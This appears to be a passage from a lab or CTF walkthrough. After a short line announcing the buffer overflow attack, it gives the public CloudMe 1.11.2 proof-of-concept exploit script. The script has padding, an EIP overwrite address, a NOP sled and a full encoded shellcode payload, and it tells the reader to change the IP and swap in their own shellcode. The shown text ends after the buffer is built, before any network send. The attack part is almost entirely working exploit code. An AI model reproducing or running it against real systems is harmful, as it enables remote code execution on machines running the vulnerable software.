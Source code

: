 ![[Buff-14.png]]

OK! we are ready to use Buffer over flow attack.

##### Final Python script

Alter this python script's IP address and replace the shellcode:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

payload =  b""
payload += b"\xdb\xcd\xbd\xb0\xa8\xdc\xd9\xd9\x74\x24\xf4\x5b"
payload += b"\x33\xc9\xb1\x52\x83\xeb\xfc\x31\x6b\x13\x03\xdb"
payload += b"\xbb\x3e\x2c\xe7\x54\x3c\xcf\x17\xa5\x21\x59\xf2"
payload += b"\x94\x61\x3d\x77\x86\x51\x35\xd5\x2b\x19\x1b\xcd"
payload += b"\xb8\x6f\xb4\xe2\x09\xc5\xe2\xcd\x8a\x76\xd6\x4c"
payload += b"\x09\x85\x0b\xae\x30\x46\x5e\xaf\x75\xbb\x93\xfd"
payload += b"\x2e\xb7\x06\x11\x5a\x8d\x9a\x9a\x10\x03\x9b\x7f"
payload += b"\xe0\x22\x8a\x2e\x7a\x7d\x0c\xd1\xaf\xf5\x05\xc9"
payload += b"\xac\x30\xdf\x62\x06\xce\xde\xa2\x56\x2f\x4c\x8b"
payload += b"\x56\xc2\x8c\xcc\x51\x3d\xfb\x24\xa2\xc0\xfc\xf3"
payload += b"\xd8\x1e\x88\xe7\x7b\xd4\x2a\xc3\x7a\x39\xac\x80"
payload += b"\x71\xf6\xba\xce\x95\x09\x6e\x65\xa1\x82\x91\xa9"
payload += b"\x23\xd0\xb5\x6d\x6f\x82\xd4\x34\xd5\x65\xe8\x26"
payload += b"\xb6\xda\x4c\x2d\x5b\x0e\xfd\x6c\x34\xe3\xcc\x8e"
payload += b"\xc4\x6b\x46\xfd\xf6\x34\xfc\x69\xbb\xbd\xda\x6e"
payload += b"\xbc\x97\x9b\xe0\x43\x18\xdc\x29\x80\x4c\x8c\x41"
payload += b"\x21\xed\x47\x91\xce\x38\xc7\xc1\x60\x93\xa8\xb1"
payload += b"\xc0\x43\x41\xdb\xce\xbc\x71\xe4\x04\xd5\x18\x1f"
payload += b"\xcf\xd0\xd6\x11\x08\x8d\xe4\x2d\x17\xf6\x60\xcb"
payload += b"\x7d\x18\x25\x44\xea\x81\x6c\x1e\x8b\x4e\xbb\x5b"
payload += b"\x8b\xc5\x48\x9c\x42\x2e\x24\x8e\x33\xde\x73\xec"
payload += b"\x92\xe1\xa9\x98\x79\x73\x36\x58\xf7\x68\xe1\x0f"
payload += b"\x50\x5e\xf8\xc5\x4c\xf9\x52\xfb\x8c\x9f\x9d\xbf"
payload += b"\x4a\x5c\x23\x3e\x1e\xd8\x07\x50\xe6\xe1\x03\x04"
payload += b"\xb6\xb7\xdd\xf2\x70\x6e\xac\xac\x2a\xdd\x66\x38"
payload += b"\xaa\x2d\xb9\x3e\xb3\x7b\x4f\xde\x02\xd2\x16\xe1"
payload += b"\xab\xb2\x9e\x9a\xd1\x22\x60\x71\x52\x52\x2b\xdb"
payload += b"\xf3\xfb\xf2\x8e\x41\x66\x05\x65\x85\x9f\x86\x8f"
payload += b"\x76\x64\x96\xfa\x73\x20\x10\x17\x0e\x39\xf5\x17"
payload += b"\xbd\x3a\xdc"


overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun

```